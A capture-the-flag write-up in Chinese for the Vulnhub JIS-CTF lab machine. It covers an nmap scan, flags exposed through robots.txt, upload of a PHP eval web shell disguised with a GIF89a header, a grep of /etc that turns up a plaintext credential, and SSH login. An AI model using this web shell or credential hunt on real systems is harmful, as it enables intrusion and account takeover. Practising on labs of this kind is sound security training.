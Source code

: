 ```yaml
---
layout: post
title: JIS-CTF
subtitle: JIS-CTF
date: 2025-07-07 16:25
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
published: true
---
```

## 环境搭建

[Vulnhub JIS-CTF靶机详解_ctf靶机如何使用-CSDN博客](https://blog.csdn.net/muyuchen110/article/details/141194080)

## 信息搜集

![Pasted%20image%2020250707170751.png](https://img.ghostliner.top/wqFpa0.png)

**发现主机：192.168.163.133**

```shell
nmap -T4 -A -p- 192.168.163.133
```

![Pasted%20image%2020250707170908.png](https://img.ghostliner.top/UVd7lU.png)

扫描站点发现`robots.txt`
![Pasted%20image%2020250707171104.png](https://img.ghostliner.top/G72JfN.png)

## 渗透测试

访问flag目录获取到flag1
![Pasted%20image%2020250707171227.png](https://img.ghostliner.top/ntcdCN.png)

访问admin_area，获取到flag2和admin密码
![Pasted%20image%2020250707180402.png](https://img.ghostliner.top/ii5xyJ.png)

登录成功，发现文件上传，尝试上传木马
![image.png](https://img.ghostliner.top/s1I617.png)

```php
GIF89a
<?php eval($_POST['code']);?>
```

上传成功，访问`/uploaded_files/shell.php`成功，蚁剑连接。
发现flag.txt为空，发现hint.txt，获取到flag3
![image.png](https://img.ghostliner.top/X0AV5L.png)

根据提示，发现flag.txt所属用户`technawi`
![image.png](https://img.ghostliner.top/GJ4LGS.png)

找到该用户家目录，未发现
![image.png](https://img.ghostliner.top/qX3FEC.png)

```shell
find / -type f -name "*technawi*" 2>/dev/null # 未发现
grep -r technawi /etc/* 2>/dev/null
```

![image.png](https://img.ghostliner.top/mYqrAr.png)

查看`/etc/mysql/conf.d/credentials.txt`,`technawi`,`3vilH@ksor`
![image.png](https://img.ghostliner.top/MV0Zgb.png)

ssh登录，查看`flag.txt`
![image.png](https://img.ghostliner.top/bkUWqU.png)
